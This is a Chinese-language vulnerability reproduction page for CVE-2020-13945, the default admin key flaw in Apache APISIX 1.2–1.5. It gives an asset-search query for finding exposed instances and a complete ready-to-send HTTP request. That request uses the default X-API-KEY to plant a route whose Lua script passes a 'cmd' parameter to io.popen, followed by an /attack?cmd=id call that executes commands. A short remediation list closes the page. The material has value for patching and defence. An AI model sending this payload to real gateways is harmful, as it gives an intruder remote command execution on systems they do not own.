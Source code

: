 # Apache APISIX 默认密钥漏洞(CVE-2020-13945)

# 一、漏洞简介
Apache APISIX 是一个动态、实时、高性能的 API 网关，基于 Nginx 网络库和 etcd 实现， 提供负载均衡、动态上游、灰度发布、服务熔断、身份认证、可观测性等丰富的流量管理功能。当使用者开启了Admin API，没有配置相应的IP访问策略，且没有修改配置文件Token的情况下，通过攻击管理员接口，即可使用script参数来插入任意LUA脚本并执行。

# 二、影响版本
+ Apache APISIX 1.2—1.5

# 三、资产测绘
+ hunter`app.name="APISIX"`
+ 特征

![1701951610416-3ffe8b1a-f818-46c3-90c2-9750d0c8c33a.png](./img/8VgmrJDcYVfiQISB/1701951610416-3ffe8b1a-f818-46c3-90c2-9750d0c8c33a-167144.png)

![1701951623458-647668b0-2b49-4197-8fea-a196df8827aa.png](./img/8VgmrJDcYVfiQISB/1701951623458-647668b0-2b49-4197-8fea-a196df8827aa-935600.png)

# 四、漏洞复现
利用默认Token增加一个恶意的router，其中包含恶意LUA脚本：

```plain
POST /apisix/admin/routes HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

访问刚才添加的router，就可以通过cmd参数执行任意命令

```plain
/attack?cmd=id
```

![1701951737969-45ca1cec-6fd1-44ab-9a55-cdbccf8bf568.png](./img/8VgmrJDcYVfiQISB/1701951737969-45ca1cec-6fd1-44ab-9a55-cdbccf8bf568-114498.png)

# 五、修复建议
1. 修改Apache APISIX配置文件中 conf/config.yaml 的admin_key，禁止使用默认Token

2. 若非必要，关闭Apache APISIX Admin API功能，或者增加IP访问限制。

3. 升级Apache APISIX 至最新版本。



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sz75upt9woezyc2g>